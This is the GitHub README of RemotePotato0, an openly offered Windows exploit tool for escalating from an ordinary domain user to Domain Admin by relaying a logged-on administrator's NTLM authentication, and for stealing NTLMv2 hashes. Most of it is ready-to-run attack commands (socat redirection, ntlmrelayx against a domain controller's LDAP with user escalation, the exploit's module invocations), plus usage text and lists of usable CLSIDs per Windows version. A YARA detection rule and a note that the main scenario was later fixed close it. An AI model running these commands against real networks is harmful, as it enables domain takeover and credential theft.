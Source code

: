 # RemotePotato0

**UPDATE 21-10-2022: The main exploit scenario RPC->LDAP of RemotePotato0 has been fixed. More details at -->** https://twitter.com/splinter_code/status/1583555613950255104  

Just another "Won't Fix" Windows Privilege Escalation from User to Domain Admin.

RemotePotato0 is an exploit that allows you to escalate your privileges from a generic User to Domain Admin. 

Briefly:

It abuses the DCOM activation service and trigger an NTLM authentication of any user currently logged on in the target machine.
It is required that a privileged user is logged on the same machine (e.g. a Domain Admin user).
Once the NTLM type1 is triggered we setup a cross protocol relay server that receive the privileged type1 message and relay it to a third resource by unpacking the RPC protocol and packing the authentication over HTTP. On the receiving end you can setup a further relay node (eg. ntlmrelayx) or relay directly to a privileged resource.
RemotePotato0 also allows to grab and steal NTLMv2 hashes of every users logged on a machine.

## Examples

Attacker machine (10.0.0.20)

Victim machine (10.0.0.45)

Victim Domain Controller (10.0.0.10)

#### Module 0 - Rpc2Http cross protocol relay server + potato trigger

```
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.0.0.45:9999 &
sudo ntlmrelayx.py -t ldap://10.0.0.10 --no-wcf-server --escalate-user normal_user
```
**Note: if you are on Windows Server <= 2016 you can avoid the network redirector (socat) because the oxid resolution can be performed locally.**

```
query user
.\RemotePotato0.exe -m 0 -r 10.0.0.20 -x 10.0.0.20 -p 9999 -s 1
```

#### Module 1 - Rpc2Http cross protocol relay server
```
.\RemotePotato0.exe -m 1 -l 9997 -r 10.0.0.20 
```

```
rpcping -s 127.0.0.1 -e 9997 -a connect -u ntlm
```

#### Module 2 - Rpc capture (hash) server + potato trigger
```
query user
.\RemotePotato0.exe -m 2 -s 1
```

#### Module 3 - Rpc capture (hash) server
```
.\RemotePotato0.exe -m 3 -l 9997
```

```
rpcping -s 127.0.0.1 -e 9997 -a connect -u ntlm
```
## Usage

```


        RemotePotato0
        @splinter_code & @decoder_it



Mandatory args:
-m module
        Allowed values:
        0 - Rpc2Http cross protocol relay server + potato trigger (default)
        1 - Rpc2Http cross protocol relay server
        2 - Rpc capture (hash) server + potato trigger
        3 - Rpc capture (hash) server


Other args: (someone could be mandatory and/or optional based on the module you use)
-r Remote HTTP relay server ip
-t Remote HTTP relay server port (Default 80)
-x Rogue Oxid Resolver ip (default 127.0.0.1)
-p Rogue Oxid Resolver port (default 9999)
-l RPC Relay server listening port (Default 9997)
-s Session id for the Cross Session Activation attack (default disabled)
-c CLSID (Default {5167B42F-C111-47A1-ACC4-8EABE61B0B54})
```


## Demo

### Cross session activation
<img src="demo_cross_session.gif">

### Hash Stealer
<img src="demo_hash_stealer.gif">

## CLSID List

A list of usable CLSID on various Windows version:

Windows Server 2019
```
{0002DF02-0000-0000-C000-000000000046} - BrowserBroker Class   
{0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4} - AuthBrokerUI 
{5167B42F-C111-47A1-ACC4-8EABE61B0B54} - Easconsent.dll 
{924DC564-16A6-42EB-929A-9A61FA7DA06F} - Authentication UI CredUI Out of Proc Helper for Non-AppContainer Clients  
{934b410c-43e4-415e-9935-fbc081ba93a9} - UserInfoDialog   
{BA441419-0B3F-4FB6-A903-D16CC14CCA44} - CLSID_LockScreenContentionFlyout 
{c58ca859-80bc-48df-8f06-ffa94a405bff} - Picker Host   
{f65817c8-dd85-4136-89f0-b9d12939f2c4} - IsolatedMessageDialogFactory  
{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83} - SPPUIObjectInteractive Class
{f8842f8e-dafe-4b37-9d38-4e0714a61149} - CastServerInteractiveUser
```

Windows Server 2016
```
{924DC564-16A6-42EB-929A-9A61FA7DA06F}
{f65817c8-dd85-4136-89f0-b9d12939f2c4}
{BA441419-0B3F-4FB6-A903-D16CC14CCA44}
{0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4}
{934b410c-43e4-415e-9935-fbc081ba93a9}
{f8842f8e-dafe-4b37-9d38-4e0714a61149}
{0002DF02-0000-0000-C000-000000000046}
{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
{c58ca859-80bc-48df-8f06-ffa94a405bff}
{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
```

Windows Server 2008 R2
```
{FCC74B77-EC3E-4dd8-A80B-008A702075A9}
{9BA05972-F6A8-11CF-A442-00A0C90A8F39}
{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
```


You can find a more complete list here --> http://ohpe.it/juicy-potato/CLSID/

## Detection

Yara rule to detect RemotePotato0 binary:

```
rule SentinelOne_RemotePotato0_privesc {
    meta:
        author = "SentinelOne"
        description = "Detects RemotePotato0 binary"
        reference = "https://labs.sentinelone.com/relaying-potatoes-dce-rpc-ntlm-relay-eop"
        
    strings:
        $import1 = "CoGetInstanceFromIStorage"
        $istorage_clsid = "{00000306-0000-0000-c000-000000000046}" nocase wide ascii
        $meow_header = { 4d 45 4f 57 }
        $clsid1 = "{11111111-2222-3333-4444-555555555555}" nocase wide ascii
        $clsid2 = "{5167B42F-C111-47A1-ACC4-8EABE61B0B54}" nocase wide ascii
        
    condition:        
        (uint16(0) == 0x5A4D) and $import1 and $istorage_clsid and $meow_header and 1 of ($clsid*)
}
```

## Authors

* [Antonio Cocomazzi](https://twitter.com/splinter_code)
* [Andrea Pierini](https://twitter.com/decoder_it)

## Credits

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [@tiraniddo](https://twitter.com/tiraniddo) - [Cross Session Activation](https://www.tiraniddo.dev/2021/04/standard-activating-yourself-to.html)
* [@Responder](https://github.com/lgandx/Responder)

## References
- https://labs.sentinelone.com/relaying-potatoes-dce-rpc-ntlm-relay-eop/
- https://www.tiraniddo.dev/2021/04/standard-activating-yourself-to.html
